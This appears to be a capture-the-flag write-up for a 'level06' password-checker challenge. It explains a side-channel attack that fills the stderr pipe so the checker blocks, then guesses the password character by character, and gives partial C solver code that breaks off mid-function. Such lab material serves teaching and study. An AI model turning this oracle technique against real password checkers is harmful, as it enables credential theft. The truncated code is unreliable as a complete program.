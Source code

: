 We attach the level06 programs stdout and stderr to a pipes and write enough bytes to the stderr pipe so that after the level06 program writes the welcome message and the '.' characters for the 'C' and the 'U' character it will block. We then pause for 200ms and do a non-blocking read of stdin. If we receive the incorrect message then we know the 'U' character is incorrect. Otherwise if we don't receive an incorrect message we assume the 'U' character is correct. 

We can then loop through all the possible 'U' characters to find the next correct character.

This procedure is repeated starting from the the empty string until no more correct characters can be found and the final string is the password.


    #include <unistd.h>
    #include <fcntl.h>
    #include <string.h>
    #include <stdio.h>
    #include <ctype.h>
    #include <sys/wait.h>
    #include <stdlib.h>

    #define CAPACITY (65536)
    #define PROGRAM "/levels/level06"
    #define PASSWORD_FILE "/home/the-flag/.password"
    #define ERROR "Ha ha, your password is incorrect!\n"
    #define FIRST_LINE "Welcome to the password checker!\n"

    int test_password(char* correct_so_far, char letter_to_check) {
      
      int stderr_fds[] = {0, 0};
      int stdout_fds[] = {0, 0};
      char buf[CAPACITY] = {'A'};
      char minibuf[1];
      char first_line[strlen(FIRST_LINE)];

      for (int i = 0; i < CAPACITY; ++i) {
        buf[i] = 'A';
      }

      pipe(stderr_fds);
      pipe(stdout_fds);

      int res = write(stderr_fds[1], buf, CAPACITY - 33 - strlen(correct_so_far) - 1);

      
      if (!fork()) {

        char password_to_check[1024];
        strcpy(password_to_check, correct_so_far);
        password_to_check[strlen(correct_so_far)] = letter_to_check;
        password_to_check[strlen(correct_so_far) + 1] = '\1';
        password_to_check[strlen(correct_so_far) + 2] = '\0';

        char* argv[] =  {PROGRAM, PASSWORD_FILE, password_to_check, NULL};

        dup2(stderr_fds[1], 2);
        dup2(stdout_fds[1], 1);
        close(0);
        close(stdout_fds[0]);
        close(stderr_fds[0]);
        execv(PROGRAM, argv);
        exit(-1);
      }
